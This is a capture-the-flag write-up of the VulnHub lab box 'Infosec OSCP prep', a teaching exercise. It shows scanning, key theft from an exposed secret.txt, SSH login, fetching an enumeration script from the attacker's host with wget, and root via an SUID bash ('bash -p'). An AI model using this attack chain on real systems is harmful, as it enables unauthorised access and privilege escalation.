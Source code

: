 ```yaml
---
title: "Infosec OSCP prep"
date: 2024-06-12
draft: false
summary: "Writeup for Infosec OSCP prep CTF challenge on VulnHub."
tags: ["linux", "suid", "wordpress"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "images/cover.png"
  caption: "Infosec OSCP prep VulnHub Challenge"
  alt: "Infosec OSCP prep cover"
platform: "VulnHub"
---
```


*Infosec OSCP prep* is a boot to root box that contains 1 flag in the */root/* directory.
<!--more-->
You can download  *Infosec OSCP prep* from **VulnHub** by clicking on the link given below: 
- https://www.vulnhub.com/entry/infosec-prep-oscp,508/

## Recon

After booting the machine on **VMware**, I performed a network scan using **netdiscover** to discover the target IP.

```bash
netdiscover -r 192.168.1.0/24  
```

After finding the target IP, I performed an **nmap** aggressive scan to identify open ports and services.

```
nmap -A -p- TARGET --min-rate 10000 -oN nmap.out
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |
| 33060    | mysql       |

![](images/1.png)

## Initial Foothold

I visited the web application that was running on the target using my browser.

![](images/2.png)

![](images/3.png)

The home page disclosed 2 things:
- Username: *oscp*.
- CMS: *WordPress*.

Upon closer inspection, when I clicked on the *SAMPLE PAGE* button on the top right corner, I got redirected to another page. I scrolled down and found a link to go to a login page.

![](images/4.png)

Upon clicking the *Log in* button, I got redirected to a wordpress login panel.

![](images/5.png)

To find more hidden directories and files, I ran a scan using **dirb**.

```shell
dirb http://TARGET/ /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
```

![](images/6.png)

![](images/7.png)

I visited the *robots.txt* page and found a link to a file called *secret.txt*

![](images/8.png)

Upon visiting *secret.txt*, I get a base64 encoded block of text.

![](images/9.png)

I decoded this file and downloaded it onto my system.

```shell
curl http://TARGET/secret.txt | base64 -d > secret.txt
```

![](images/10.png)

It turned out to be a private key. In order to **ssh** into the target using it, I had to find a valid username. Since the site was running on WordPress, I ran a scan using **wpscan** but didn't find anything besides the version and theme.

```bash
wpscan --url http://192.168.1.7
```

![](images/11.png)

![](images/12.png)

I had earlier identified a username called *oscp* so, I tried using it along with the private key. To use the key for authentication, I modified its permissions so that only the owner has read and write access.

```shell
mv secret.txt private.key
chmod 600 private.key
```

![](images/13.png)

I then authenticated to the box using the key:

```shell
ssh -i private.key oscp@TARGET
```

![](images/14.png)

I got initial access to the system.
## Privilege Escalation

The challenge description mentioned that the flag was present inside the */root* directory. So, I tried downloaded **linux smart enumeration** script from **github** to enumerate privilege escalation vectors.

- https://github.com/diego-treitos/linux-smart-enumeration

```shell
cd /tmp
which wget
wget "http://KALI/lse.sh"
chmod +x lse.sh
```

![](images/15.png)

It detected an **SUID** bit on the **bash** binary.

![](images/16.png)

I manually verified this by using the following command:

```bash
find / -user root -perm -u=s -ls 2>/dev/null
```

![](images/17.png)

Now I can simply type **bash -p** to get root access.

The **bash -p** command starts a new instance of the Bash shell in "privileged" mode. In simple terms, it means:
- **bash** is the command to start a new Bash shell.
- **-p** stands for "privileged mode."

With root access, I captured the flag from the *root* directory.

![](images/18.png)
# CLOSURE

Here's a short summary of how I pwned the system:
- I found a username from the webpage: *oscp*.
- I found an SSH private key from the *robots.txt* listing inside *secret.txt*.
- I logged in as *oscp* using this SSH private key.
- I found an SUID bit on */bin/bash*.
- I executed privileged mode on **bash** using **bash -p**.

That's it from my side. Happy Hacking :)

------------------------------------------------------------------------------------